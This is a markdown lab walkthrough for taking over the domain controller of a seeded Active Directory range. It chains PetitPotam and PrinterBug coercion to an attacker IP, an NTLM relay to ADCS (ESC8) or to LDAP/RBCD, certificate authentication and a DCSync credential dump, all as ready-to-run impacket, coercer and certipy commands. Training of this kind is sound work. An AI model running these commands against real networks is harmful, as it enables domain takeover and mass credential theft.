

# 🔁 06 — Coerce + NTLM relay → DC takeover

> [!abstract] Summary
> **Start:** network position to receive auth + any (or no) credential.
> **Goal:** force the DC to authenticate to you, relay it for a DC certificate or RBCD → DCSync.
> **Why it works:** `Spooler` and `EFS` are enabled on the DCs (seeded). MS-RPRN (PrinterBug) and MS-EFSRPC (PetitPotam) let you *coerce* a DC's machine account to authenticate to an attacker host. NTLM without signing/EPA can be relayed.



## Seeded surface
- `Spooler` + `EFS` running on DCs → PrinterBug / PetitPotam coercion.
- ADCS `corp-CA` web enrollment over HTTP + NTLM, **no EPA** (ESC8).
- WSUS SPN `HTTP/wsus.empire.local` (SRV-046) — alternate relay target.

## Step 1 — Start the relay to ADCS (ESC8)

```bash
impacket-ntlmrelayx -t http://endor.empire.local/certsrv/certfnsh.asp \
  -smb2support --adcs --template DomainController
```

## Step 2 — Coerce the DC to authenticate

```bash
# PetitPotam (EFSRPC) — works unauth in many builds, else use any cred
coercer coerce -l <attacker_ip> -t 10.10.0.10 -u <user> -p <pw>
# or PrinterBug:
dementor.py / printerbug.py <attacker_ip> 10.10.0.10
```
`ntlmrelayx` catches `COURUSCANT$` auth → requests a cert as the DC.

## Step 3 — Authenticate with the DC certificate

```bash
certipy auth -pfx coruscant.pfx -dc-ip 10.10.0.10     # → DC$ TGT
```

## Step 4 — DCSync as the DC

```bash
KRB5CCNAME=coruscant.ccache impacket-secretsdump -k -just-dc \
  empire.local/'coruscant$'@coruscant.empire.local
```

> [!tip] No-ADCS variant — relay to LDAP for RBCD
> If signing is off, relay to LDAP and configure resource-based constrained delegation onto the DC, then S4U to impersonate Administrator:
> ```bash
> impacket-ntlmrelayx -t ldap://10.10.0.10 --delegate-access --no-dump
> impacket-getST -spn cifs/coruscant.empire.local -impersonate Administrator \
>   'empire.local/ATTACKER$:<pw>'
> ```

> [!check] Outcome
> DC takeover without cracking anything. **Next:** [[12-persistence]].
> Unconstrained-delegation variant (capture DC TGT instead of relaying): [[07-delegation]].
